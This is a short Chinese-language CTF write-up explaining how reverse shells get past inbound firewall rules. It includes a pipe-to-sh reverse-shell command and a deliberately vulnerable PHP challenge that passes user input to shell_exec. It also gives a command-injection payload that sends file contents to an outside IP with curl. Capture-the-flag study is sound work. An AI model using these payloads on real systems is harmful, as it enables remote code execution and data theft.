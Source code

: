 >
> > 反弹shel的本质就是让对方服务器主动连接你指定的ip地址和端口，在大部分的服务器防火墙中，对
> > 入站的流量有详细和严格的监控，比如服务器只开放80和443端口，，其他端口不开放，这时候，就算服务端有个程序在9999端口监听，等你连接，你也连接不上
> > 但是，防火墙对服务器内部向外连接的流量，基本是全部放行。基于这个策略，我们通过反弹可以绕
> > 过服务器的防火墙检查

群主的好货[https://your-shell.com](https://your-shell.com/)

```
# Reverse Shell as a Service
# https://ctf.show/
#
# 1. On your machine:
#      nc -l 1337
#
# 2. On the target machine:
#      curl https://your-shell.com/yourip:1337 | sh
#
# 3. Don't be a dick
```

```php
<?php

# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2022-03-19 12:10:55
# @Last Modified by:   h1xa
# @Last Modified time: 2022-03-19 13:27:18
# @email: h1xa@ctfer.com
# @link: https://ctfer.com


error_reporting(0);
highlight_file(__FILE__);
$url = $_GET['url'];

$schema = substr($url,0,8);

if($schema==="https://"){
    shell_exec("curl $url");
}

```

要求$url以https://开头，shell_exec用;直接截断就行，相当于无回显rce：

```
?url=https://;curl http://ip:8899?a=`cat /*`
```



## 808-php7.0文件包含崩溃卡临时文件
